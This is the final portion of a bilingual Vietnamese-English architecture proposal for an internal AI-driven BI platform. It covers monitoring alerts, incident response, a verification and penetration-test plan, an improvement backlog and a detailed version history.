| **Auth failures spike** | > 50 failed logins in 10 minutes | 🔴 Critical | Slack + Email | Possible brute force, check WAF |
| **StarRocks down** | Health check fails > 3 times | 🔴 Critical | PagerDuty | Restart containers, check disk/memory |
| **Redis OOM** | Memory usage > 90% | 🟡 Warning | Slack #infra | Evict old cache, increase memory |
| **Reconciliation fail** | Source vs OLAP diff > threshold | 🔴 Critical | Slack + Email | Check pipeline, manual re-sync |
| **Hallucination detected** | Response with data but no execution trace | 🔴 Critical | Slack #ai-team | Review Langfuse trace, fix prompt |

#### 9.9.4. Log Aggregation Strategy

| Source | Log Format | Destination | Retention |
|:-------|:----------|:-----------|:----------|
| **Next.js / FastAPI** | JSON structured (pino/structlog) | Grafana Loki | 30 ngày |
| **Dagster** | Built-in structured logs | Grafana Loki | 30 ngày |
| **StarRocks** | Audit log (`fe.audit.log`) | Grafana Loki | 90 ngày |
| **Nginx** | Access + error logs | Grafana Loki | 14 ngày |
| **LLM traces** | OpenTelemetry spans | Langfuse | 90 ngày |

#### 9.9.5. Incident Response Playbook

| Severity | Response Time | Escalation | Communication |
|:---------|:-------------|:-----------|:-------------|
| 🔴 **Critical** (system down, data breach) | < 15 phút | On-call engineer → Tech Lead → CTO | Slack #incident + status page |
| 🟡 **Warning** (degraded performance, stale data) | < 1 giờ | On-call engineer | Slack #alerts |
| 🟢 **Info** (scheduled maintenance, minor issues) | Next business day | Assigned engineer | Slack #infra |

---

## 10. Verification Plan

### 10.1. Automated Tests
- Unit tests cho mỗi agent component (Planner, SQL, Python, Viz)
- Integration tests: end-to-end query → response pipeline
- Benchmark test suite: 50+ Q-SQL pairs cho accuracy measurement
- Load testing: k6 với 100 concurrent users
- **Hallucination detection tests**: Automated checks rằng KHÔNG response nào chứa fabricated data
- **Cache hit/miss tests**: Verify cache lookup, invalidation, và background refresh

### 10.2. Manual Verification
- Demo session với stakeholders sau mỗi phase
- User acceptance testing với 5-10 real users
- Security audit cho sandbox isolation
- Browser testing cho UI/UX trên Chrome, Firefox, Safari
- **Data accuracy audit**: So sánh 50+ kết quả AI vs manual SQL query


### 10.3. Security Penetration Tests (NEW)

| # | Test | Tool | Pass Criteria |
|:--|:-----|:-----|:-------------|
| 1 | Browser DevTools → Network tab inspection | Manual | Zero raw data in API responses |
| 2 | Direct API access without auth | curl | 401/403 response |
| 3 | API response inspection | Manual | Only `{labels, values}` JSON, no raw rows |
| 4 | JWT token forgery | Burp Suite | Forged tokens rejected |
| 5 | RBAC bypass (regional manager access all regions) | API testing | Returns only permitted region data |
| 6 | SQL injection via filter parameters | SQLMap | Parameterized queries prevent injection |
| 7 | Bulk data export attempt detection | Audit log review | Alert triggered for > 50 queries/hour |

---

## Appendix

### B. Architectural Improvement Backlog (v6.0 Review)

> [!NOTE]
> Các improvement suggestions bên dưới được phát hiện trong quá trình review v6.0 (xem `bi-update.md`). Đây là các cải tiến **nên** triển khai nhưng **không phải blocker** cho MVP. Ưu tiên triển khai theo thứ tự từ trên xuống.

#### I1. Pod Pool Pre-warming cho K8s Sandbox (§2.2, §4.3)
**Vấn đề**: 300-500 users đồng thời yêu cầu Python analysis → pod cold start (1-3s) gây latency spike.
**Đề xuất**: Giữ sẵn 3-5 idle pods warm, scale theo HPA (minReplicas=3, maxReplicas=20). Tương tự AWS Lambda warm start.

#### I2. Schema Drift Detection cho MongoDB (§5.1)
**Vấn đề**: MongoDB thêm/đổi field → dbt raw models lệch schema → pipeline stop.
**Đề xuất**: Dagster step: Airbyte detect schema change → emit event → pause pipeline → alert data team → resume sau khi dbt+MDL update.

#### I3. ChromaDB → Qdrant Migration Lifecycle (§4.2)
**Vấn đề**: "ChromaDB (dev) → Qdrant (prod)" không define trigger, migration steps, rollback plan.
**Đề xuất**: Trigger: >500K vectors HOẶC p95 search >200ms. Migration runbook: export embeddings → batch import Qdrant → validate → switch endpoint → monitor 24h → decommission ChromaDB.

#### I4. Circuit Breaker cho Next.js ↔ FastAPI (§4.2.1)
**Vấn đề**: Circular dependency (Next.js → FastAPI → Next.js Query Proxy) có thể gây cascade failure.
**Đề xuất**: `httpx` retry config + exponential backoff + circuit breaker. Fallback: nếu Next.js Query Proxy unreachable, FastAPI execute query trực tiếp với RBAC tự handle.

#### I5. Cache Invalidation Race Condition (§5.7.2.4)
**Vấn đề**: Giữa `mark stale` và `background refresh`, concurrent requests nhận stale artifact.
**Đề xuất**: Redis `SETNX` distributed lock — atomic stale marking + background refresh launch. Subsequent requests serve stale với explicit "refreshing" badge.

#### I6. Rate Limiting cho AI Chat Path (§7)
**Vấn đề**: AI Chat (UC2) không có rate limiting — 1 user có thể gửi 1000 queries, exhaust LLM budget + K8s pods.
**Đề xuất**: Implement từ Phase 1:
- Per-user: 60 queries/giờ (configurable)
- Per-session: 20 complex Python queries/giờ
- Global: budget alert khi LLM cost vượt threshold/ngày

#### I9. Data Freshness UX Gap (§5.1.4 vs §5.8)
**Vấn đề**: User thấy "Data cập nhật 3 phút trước" nhưng hỏi về đơn hàng 4 phút trước → AI nói "không có" → confused.
**Đề xuất**: Hiển thị rõ: "Data có hiệu lực đến [timestamp]. Đơn hàng tạo sau [timestamp] chưa được phản ánh." AI cần proactively cảnh báo khi user hỏi về data trong freshness window.

#### I11. File Upload Pipeline Definition (§8.2 vs §4.2)
**Vấn đề**: Phase 1 task "File upload (CSV/Excel)" thiếu pipeline definition.
**Đề xuất**: `Browser → Next.js → MinIO → FastAPI (schema inference via pandas) → Temporary StarRocks table → Wren AI MDL patch (session-scoped)`. File cleanup policy: 24h TTL hoặc user-controlled.

#### I13. Dashboard/Report Schema Migration (§6.0.4)
**Vấn đề**: Dashboards chứa SQL template và column references. dbt rename column → saved dashboards fail silently.
**Đề xuất**: (1) Versioning: `dashboardSchemaVersion: "1.0"`. (2) Dagster trigger dashboard migration job khi dbt column rename. (3) Alert dashboard owners nếu migration fail.

#### I14. Session Persistence cho LangGraph (§4.3)
**Vấn đề**: User đóng tab, mở lại → session có được restore không? Không có mô tả checkpoint strategy.
**Đề xuất**: Lưu LangGraph checkpoints vào PostgreSQL `chat_sessions`. TTL: 7 ngày (configurable). Session resume: fetch last checkpoint → context restored.

### A. Version Tracking

| Version | Date | Changes |
|:--------|:-----|:--------|
| v1.0 | 2026-04-07 | Initial research & proposal document |
| v1.1 | 2026-04-07 | Added OLTP→OLAP data pipeline architecture (CDC + ELT); Updated user input; Added Phase 0 for pipeline setup |
| v1.2 | 2026-04-07 | Replaced ClickHouse with StarRocks recommendation — better JOINs, CDC upsert, MySQL compatibility, concurrency for internal BI |
| v1.3 | 2026-04-07 | Added Data Integrity & Result Reusability Architecture — Code-Verified Data Generation (5-layer enforcement), Result Artifact Store (semantic caching, pipeline-driven invalidation, reuse scenarios); Updated Verification Plan |
| v1.4 | 2026-04-07 | Added Data Journey Walkthrough — step-by-step beginner-friendly explanation tracing a concrete order from Production DB → User's screen |
| v1.5 | 2026-04-07 | Added Python code execution path via K8s Pod Sandbox; Added AI-Assisted Dashboard Builder — 3 interaction modes, widget lifecycle, KPIs |
| v1.6 | 2026-04-07 | Added Evidence.dev Integration Strategy — Hybrid architecture, AI-generated Evidence Markdown pages, deployment architecture |
| v1.7 | 2026-04-08 | Added Evidence.dev Source Code Verification — cloned repo, reviewed MySQL connector, data pipeline, confirmed 100% feasibility |
| v1.8 | 2026-04-08 | Added Multi-Dimensional Filter Architecture — Grain-Based Tiered Computation, Star Schema, MVs, Evidence Parquet, context bridge |
| v1.9 | 2026-04-08 | **SECURITY CRITICAL** — Added Data Security Architecture. Evidence Parquet vulnerability identified. Proposed Hybrid Tiered Security |
| v2.0 | 2026-04-08 | **ARCHITECTURE REVISION** — Eliminated Parquet-in-browser from §3.9. Server-Side Query Proxy + Redis Cache. Zero raw data exposure |
| v3.0 | 2026-04-08 | **DOCUMENT REORGANIZATION** — Complete restructure from 11 flat sections to 10 logically-ordered sections. Added: Executive Summary (§1), Context & Requirements (§2), Error Handling & Fallback (§9.5), Deployment Architecture (§9.6), Security Penetration Tests (§10.3). Merged scattered KPIs and checklists. Fixed §3.8 Evidence.dev stale content (trimmed 80%). Removed §3 mega-section (3200 lines) → split into §4-§7. Updated all cross-references and heading numbers |
| v3.1 | 2026-04-08 | **VISUALIZATION STRATEGY** — Added §6.10 Evidence Fork Feasibility Analysis (source code deep-dive, 3 intervention points, verdict: not recommended). Added §6.11 AI Visualization Landscape Research (surveyed 7 tools: Graphic Walker, ECharts, LIDA, Vizro, Superset, Metabase). **Key decision**: Graphic Walker (React, server-side computation, spec-based) as PRIMARY + ECharts as SECONDARY chart library. Added 3-layer visualization architecture, LIDA-inspired AI chart pipeline pattern |
| v3.2 | 2026-04-08 | **EVIDENCE ROLE FINALIZED** — Rewrote §6.9.3 with direct 12-criteria comparison: Evidence loses 10/12 vs Graphic Walker + ECharts. Final verdict: Remove Evidence from Phase 1-3 |
| v3.3 | 2026-04-08 | **USE-CASE DRIVEN ARCHITECTURE** — Added §6.0 with 3 use cases, Report Builder (BlockNote + ECharts) for UC3. Evidence removed from production |
| v3.4 | 2026-04-08 | **USE-CASE CORRECTION + SOURCE VERIFICATION** — Split UC2 into UC2a (Chat Ad-hoc) + UC2b (Dashboard Builder for UC1). Added Layer 2: Dashboard Builder (react-grid-layout, Grafana/Metabase pattern). **BlockNote source code cloned and verified** (8 claims confirmed: custom blocks, AI via Vercel AI SDK, PDF via @react-pdf/renderer, collaboration, React 18/19). License analysis: core=MPL-2.0 OK, xl-*=GPL-3.0 OK for internal. Compared BlockNote vs TipTap vs Plate. Updated to 5-layer visualization stack. Added Dashboard data model + UC2b→UC1 flow |
| v4.0 | 2026-04-08 | **COMPREHENSIVE CLEANUP** — Removed all Evidence.dev references from diagrams (§1.3, §4.1, §7.4). Replaced Plotly/Recharts→ECharts in §4.2, §5.6. Removed Parquet references (§5.6.2, §7, §10.3). Fixed §2 numbering (2.1↔2.2 swap). Removed duplicate §3.5.6. Condensed §6.9+§6.10 Evidence research (297→20 lines). Condensed §6.11.4-6.11.6 old viz stack (62→12 lines). **Trimmed §7.1-7.7** Evidence Parquet analysis (418→50 lines) — replaced with Server-Side Query Proxy security architecture. Fixed §7 numbering (7.1-7.6). Updated §7.6 checklist (Evidence items→Dashboard/Report Builder items). Total: **4636→~4010 lines** (~14% reduction). Zero obsolete references remaining |
| v4.1 | 2026-04-08 | **USE CASE REFACTORING** — Renumbered UC2a/UC2b/UC3 → UC1-UC4. **Key architectural insight**: Chart = atomic unit shared across all surfaces. Dashboard ⊂ Report Page (same data model, differs only by `layout_type: 'grid' \| 'page'`). **Any user** can create dashboards (personal vs global, global needs approval). UC2 (Chat) charts can "Add to Dashboard" (UC3) or "Add to Report Page" (UC4). New §6.0.2: Chart-Centric Architecture diagram. Updated §6.0.3 Layers: Viewer (UC1), AI Chat (UC2), Dashboard Builder (UC3), Report Builder (UC4), Data Explorer (optional). Updated all 79 UC references across document |
| v5.2 | 2026-04-08 | **MongoDB PRIMARY correction** — MongoDB confirmed as primary source (~95% volume, 2TB+), MySQL is minor legacy (~5%). Updated all diagrams, CDC edges, Data Journey walkthrough (POS → MongoDB insertOne → Change Streams → Airbyte), summary tables, CDC config table. Added dbt note about MongoDB nested document flattening |
| v5.3 | 2026-04-08 | **MCP INTEGRATION STRATEGY** — Researched MCP (Model Context Protocol) availability cho tất cả components. Kết quả: **9/10 components có official MCP server** (dbt, Airbyte, StarRocks, Wren AI, Dagster, PostgreSQL, Langfuse, MinIO, K8s — chỉ Redis là community). Added §4.6: MCP Integration Strategy với availability matrix, architecture diagram, 4 concrete UC-Dev use cases (setup CDC, debug pipeline, create MVs, maintain MDL), 4-phase adoption plan, và MCP server configuration template. Decision #19 added to §1.2 |
| v5.1 | 2026-04-08 | **CONFIRMED REQUIREMENTS & ARCHITECTURE REVISION** — All 12 open questions answered with real production data. **Key changes**: (1) Source DBs: MongoDB (primary, ~95%, 2TB+) + MySQL (~5%) — removed PostgreSQL as OLTP source, updated all CDC configs, pipeline diagrams; (2) **E2B Cloud → K8s Pod Sandbox** — on-premise deployment incompatible with E2B cloud service, replaced ~42 references with self-hosted K8s ephemeral pods using NetworkPolicy isolation; (3) Scale revised: 2TB+ data (→20-40TB future), 300+ tables, 300-500 users — StarRocks cluster sized to ≥3 BE nodes (16vCPU, 64GB each), Redis Cluster mode, fact table estimates updated to ~5-20M rows/year; (4) **On-premise K8s deployment** — removed Docker Compose phase entirely, K8s-native from day 1, Helm charts for management; (5) Cost estimation revised for on-premise: $0 infrastructure (existing K8s), only ~$240-600/mo LLM API cost vs $15,000/mo SaaS equivalent; (6) **PII & Data Masking Pipeline** added §5.3b — 3-tier masking (PII hash in dbt staging, column-level RBAC for financial data, row-level RBAC for business metrics), column-level RBAC matrix for 5 roles; (7) Domain context: supermarket chain operations — updated examples (POS transactions, store/inventory data), business domains (Sales, Finance, Operations, SCM, HR); (8) Removed Julius.ai pricing table (unnecessary for internal build); (9) Updated Executive Summary with confirmed scale, infra, security details |
| v5.0 | 2026-04-08 | **COMPREHENSIVE SECURITY & INTEGRITY REVIEW** — 17 issues identified and fixed across the entire document. **Critical Security (3)**: (1) Fixed SQL injection in Query Proxy §6.2 — replaced string interpolation with parameterized queries + Zod validation + whitelist-based filter validation; (2) Added K8s Pod Sandbox Security §5.7 — 4-layer protection (network isolation, query proxy, output sanitization, code static analysis) to prevent data exfiltration; (3) Added RBAC enforcement for AI Chat path §7.3 — 3-point enforcement (agent context injection, SQL post-processing, result column masking) ensuring chat queries respect same RBAC as dashboards. **Logic Fixes (5)**: (4) Removed PandasAI from tech stack §4.2 (replaced by LLM-generated code in K8s Pod Sandbox); (5) Added API Gateway Architecture §4.2.1 — clear boundary between Next.js API Routes (auth, query proxy, CRUD) and FastAPI (agent, Wren AI, K8s Pod Sandbox); (6) Added Graduated Retry Strategy §5.6.1.3b — max 3 retries with escalating fallback, prevents infinite retry loops; (7) Fixed customer_count semi-additive measure §5.2/5.4 — replaced INT+SUM with HLL (HyperLogLog) + HLL_UNION_AGG for correct distinct count across dimensions; (8) Rewrote Query Fingerprinting §5.6.2.3 — 3-layer matching (SQL hash → entity-extracted hash → semantic match with entity guard) to prevent cross-period false cache matches. **Missing Sections (4)**: (9) Added Working Assumptions §2.3 — 10 assumptions with impact analysis and confirm-before-phase flags; (10) Added Multi-Language Strategy §2.4 — language decisions for prompts, MDL, UI, embedding model; (11) Added Wren AI Integration Architecture §4.4 — connection config, LangGraph→Wren API flow, MDL maintenance workflow, fallback strategy; (12) Added Data Reconciliation §5.1.7 — automated source-vs-OLAP validation with tolerance thresholds and alerts. **Infrastructure (5)**: (13) Updated Cost Estimation §9.3.2 — fixed StarRocks under-estimate, MVP ~$820/mo, Prod ~$1,295/mo; (14) Added HA Strategy §9.7 — component-by-component HA plan (MVP vs Production), health checks, auto-restart; (15) Added Backup & Disaster Recovery §9.8 — RPO/RTO targets, backup methods per component, 3-scenario DR runbook; (16) Added BlockNote Abstraction Layer §6.0.5 — IReportEditor interface to decouple app from pre-1.0 API, fallback plan to TipTap; (17) Added Monitoring & Alerting Architecture §9.9 — Prometheus+Grafana+Loki stack, 5 Grafana dashboards, 9 alert rules, log aggregation strategy, incident response playbook |
| v6.1 | 2026-04-15 | **CONSISTENCY AUDIT + EDITOR COMPARISON** — Fixed 6 information inconsistencies: (1) §5.6.2→§5.7.2 section numbering error; (2) Semantic cache threshold 0.92→0.95 in Reuse Scenarios Matrix; (3) Data freshness §2.1 clarified: CDC interval=5min, actual end-to-end=8-10min (reconciled with §5.1.4 and §5.8); (4) BlockNote React 19 compatibility risk (Issue #1021) added to risk mitigation section; (5) Fallback plan updated: TipTap→PlateJS as runner-up; (6) **Full 3-way editor comparison**: BlockNote vs PlateJS vs EditorJS added with 17 criteria, weighted scoring, and detailed verdict. BlockNote remains winner (4.65/5) for UC4 — AI+PDF+collaboration out-of-box. PlateJS runner-up (3.95/5) — MIT license, React 19 native, AI built-in, but no native PDF export. EditorJS eliminated (1.55/5) — vanilla JS, SSR incompatible, no AI/PDF/collaboration |
| v6.0 | 2026-04-09 | **QUALITY HARDENING — 33 FIXES APPLIED** from `bi-update.md` review. **Critical/Blocker (6)**: (1) Fixed `mv_daily_store` using non-existent `customer_count` → `HLL_UNION_AGG(customer_hll)`; (2) Fixed StarRocks param style `$1,$2` → `?` (MySQL protocol); (3) Fixed `reconcile_data` connecting to wrong `production_pg` → Airbyte-raw SQL comparison on StarRocks; (4) Fixed SQL injection in RBAC filter → parameterized queries + sqlglot AST parsing; (5) Added HLL rollup warning for `fct_revenue`; (6) Fixed Entity Guard missing `filters`/`granularity` in Semantic Cache. **High (9)**: Embedding model → multilingual-e5-large; Sandbox timeout → MAX_EXECUTION_TIME_SEC=15; GW RBAC `translateGWSpecToSQL` documented; SWR cache pattern + distributed lock; Health checks docker-compose → K8s probes; Reconciliation SQL for MongoDB → Airbyte-raw approach. **Medium (12)**: MDL Change Control Process + versioning/rollback strategy; BlockNote version pinning + contract tests; Dagster/Airflow naming fixed; `mv_brand_performance` added `customer_hll`; PostgreSQL RAM 4GB→8GB; FastAPI role description corrected; Cache warming idempotency lock; `queryTemplate` parameterized-only (no `{{filter}}`). **Low (6)**: Layer count title 5→6; WrenAIClient code fix; LLM model names; MV naming consistency; Version tracking order; Interval syntax fix. |


